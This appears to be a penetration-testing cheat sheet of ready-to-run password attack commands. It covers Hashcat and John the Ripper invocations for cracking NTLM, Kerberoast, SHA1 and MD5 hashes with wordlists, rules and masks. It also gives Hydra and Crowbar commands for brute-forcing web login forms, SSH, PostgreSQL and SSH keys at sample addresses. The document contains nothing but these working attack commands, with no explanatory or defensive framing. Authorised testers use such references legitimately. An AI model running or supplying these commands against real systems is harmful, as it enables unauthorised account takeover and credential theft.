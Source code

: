 # Cracking Passwords & More
======

## Hash Cracking
------
#### Hashcat w/Wordlist
.\hashcat64.exe -m 1000 C:\Users\Cary\Desktop\hash -o C:\path\to\hash E:\path\to\wordlist.txt

#### Hashcat to Crack Kerberoast Hash
./hashcat64.bin -m 13100 hash wordlist.txt --rules OneRuleToRuleThemAll
#### Hate Crack (TrustedSec)
python ../hate_crack/hate_crack.py C:\path\to\hash 1000
#### John The Ripper (JrR)
john passwd.hash
#### John Wordlist
john passwd.hash --wordlist=rockyou.txt

#### John MD5 Raw
john hash.txt -format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt

## Hashcat
------
#### Hashcat (wordlist)
hashcat64.exe -m 100 C:\path\to\hashes -o C:\path\to\outfile E:\path\to\wordlist
#### Hashcat (mask attack / 6 character)
hashcat64.exe -m 0 C:\path\to\hash -o C:\path\to\outfile -a 3 -1 ?a ?1?1?1?1?1?1
#### Hashcat (rules)
hashcat  -m 1000 hash words.txt -w3 -O -r rule.rule

## Brute Forcing
------
#### THC Hydra

#### HTTPS form post
hydra IP https-form-post "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -l test -P /usr/share/wordlists/rockyou.txt -t 16 -w 30 -o hydra.out.txt -vV
#### HTTP with user specified
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 32 192.168.0.150 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -vV
#### Brute Force SSH
hydra -L users.txt -P unix_passwords.txt -o hydra.out.txt ssh://192.168.56.209 -vV
#### Postgresql
hydra -l postgres -P /usr/share/metasploit-framework/data/wordlists/password.lst postgres://192.168.3.100
#### Crowbar (Brute SSH Keys)
crowbar -b sshkey -s IP/32 -U userlist -k keys/debian-ssh/uncommon_keys/rsa1/4096/